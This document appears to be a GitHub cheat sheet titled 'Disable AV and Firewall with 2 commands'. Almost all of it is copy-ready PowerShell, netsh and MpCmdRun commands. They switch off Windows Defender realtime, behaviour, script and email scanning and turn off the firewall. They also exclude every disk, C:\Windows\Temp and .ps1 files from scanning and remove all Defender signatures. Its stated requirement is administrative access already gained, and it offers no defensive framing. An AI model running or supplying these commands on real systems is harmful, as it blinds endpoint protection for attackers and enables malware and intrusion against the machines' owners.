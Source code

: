 ## Disable AV and Firewall with 2 commands

### Requirements: Administrative/System level access

#### 1) Set-MpPreference -DisableRealtimeMonitoring $True

#### 2) netsh advfirewall set allprofiles state off

#### 3) powershell  -c foreach ($disk in Get-WmiObject Win32_Logicaldisk){Add-MpPreference -ExclusionPath $disk.deviceid}

# Disable Signature Checks from Defender (Won't kill the AV, but it will not alert any activity because of signature disablement)

#### execute -o cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

# AV Features disable

 Disables realtime monitoring

    Set-MpPreference -DisableRealtimeMonitoring $true

 Disables scanning for downloaded files or attachments

    Set-MpPreference -DisableIOAVProtection $true

 Disable behaviour monitoring

    Set-MPPreference -DisableBehaviourMonitoring $true

 Make exclusion for a certain folder

    Add-MpPreference -ExclusionPath "C:\Windows\Temp"

 Disables cloud detection

    Set-MPPreference -DisableBlockAtFirstSeen $true

 Disables scanning of .pst and other email formats

    Set-MPPreference -DisableEmailScanning $true

 Disables script scanning during malware scans

    Set-MPPReference -DisableScriptScanning $true

 Exclude files by extension

    Set-MpPreference -ExclusionExtension "ps1"

 Turn off everything and set exclusion to "C:\Windows\Temp"

    Set-MpPreference -DisableRealtimeMonitoring $true;Set-MpPreference -DisableIOAVProtection $true;Set-MPPreference -DisableBehaviorMonitoring $true;Set-MPPreference -DisableBlockAtFirstSeen $true;Set-MPPreference -DisableEmailScanning $true;Set-MPPReference -DisableScriptScanning $true;Set-MpPreference -DisableIOAVProtection $true;Add-MpPreference -ExclusionPath "C:\Windows\Temp"

